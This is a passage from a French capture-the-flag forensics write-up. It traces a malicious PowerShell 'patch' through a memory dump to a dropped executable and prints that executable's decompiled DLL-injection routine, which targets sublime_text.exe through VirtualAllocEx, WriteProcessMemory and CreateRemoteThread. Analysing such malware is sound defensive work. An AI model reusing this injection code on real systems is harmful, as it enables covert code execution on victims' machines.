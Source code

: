 On voit parmis les processus lancé, 2 processus particulièrement interressant : 
* `powershell.exe` : qui a exécuté un script powershell `patch.ps1` qui est surement le patch de la description du challenge
* `tmpA9C3.exe` : un processus présent dans les fichiers temporaire (ce qui est pas souvent légitime)

```
$ python.exe .\vol.py -f dump.raw windows.pstree.PsTree

**** 4512	7720	powershell.exe	0xe785bbbd3080	33	-	1	False	2024-06-19 20:29:45.000000 	N/A	\Device\HarddiskVolume3\Windows\System32\WindowsPowerShell\v1.0\powershell.exe	"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -ExecutionPolicy Bypass .\patch.ps1	C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
***** 6056	4512	tmp1440.exe	0xe785bb4fb080	1	-	1	False	2024-06-19 20:30:06.000000 	N/A	\Device\HarddiskVolume3\Users\cesar\AppData\Local\Temp\tmp1440.exe
```

De plus, on remarque que le `powershell.exe` ayant exécuté le `patch.ps1` a droppé l'exécutable temporaire, ce qui est encore plus étrange.

## Reverse de l'exécutable temporaire

On peut récupérer cet exécutable grâce à MemprocFS (https://github.com/ufrisk/MemProcFS) :
`M:\pid\6056\files\modules\tmp1440.exe

Fonction main: 
```c
1400019e5      __builtin_memset(s: &s_1, c: 0, n: 0x28)
140001a04      int64_t kernel64_path
140001a04      __builtin_memcpy(dest: &kernel64_path, src: u"C:\Windows\Temp\kernel64.dll…", n: 0x38)
140001a57      int64_t var_220 = 0
140001a6c      void s
140001a6c      __builtin_memset(s: &s, c: 0, n: 0x1c0)
140001a6f      uint64_t buff_size = 0x200
140001a7a      int64_t var_260 = 0
140001a8c      uint32_t S_PID = findPID("sublime_text.exe")
140001ab1      HANDLE hProcess = OpenProcess(dwDesiredAccess: PROCESS_ALL_ACCESS, bInheritHandle: 0, dwProcessId: S_PID)
140001ac2      if (hProcess == 0)
140001ad6          printf("ERROR when trying to create an h…", zx.q(S_PID))
140001ac2      else
140001b02          printf("Successfuly got and Handle 0x%p …", hProcess)
140001b18          HMODULE hModule
140001b18          int64_t rdx_4
140001b18          hModule, rdx_4 = GetModuleHandleW(lpModuleName: u"kernel32")
140001b29          if (hModule == 0)
140001b35              printf("ERROR when trying to get an hand…", rdx_4)
140001b29          else
140001b5c              LPTHREAD_START_ROUTINE lpStartAddress = GetProcAddress(hModule, lpProcName: "LoadLibraryW")
140001b93              int64_t lpBaseAddress = VirtualAllocEx(hProcess, lpAddress: nullptr, dwSize: buff_size, flAllocationType: MEM_COMMIT | MEM_RESERVE, flProtect: PAGE_READWRITE)
140001ba4              if (lpBaseAddress != 0)
140001bcd                  enum PAGE_PROTECTION_FLAGS var_288_1
140001bcd                  var_288_1.q = &var_260
140001bdc                  WriteProcessMemory(hProcess, lpBaseAddress, lpBuffer: &kernel64_path, nSize: buff_size, lpNumberOfBytesWritten: var_288_1)
140001c04                  var_288_1.q = lpBaseAddress
140001c21                  HANDLE hHandle = CreateRemoteThread(hProcess, lpThreadAttributes: nullptr, dwStackSize: 0, lpStartAddress, lpParameter: var_288_1, dwCreationFlags: 0, lpThreadId: nullptr)
140001c32                  if (hHandle == 0)
140001c49                      printf("Failed to create remote thread, …", zx.q(GetLastError()))
140001c32                  else
140001c6b                      WaitForSingleObject(hHandle, dwMilliseconds: 0xffffffff)
```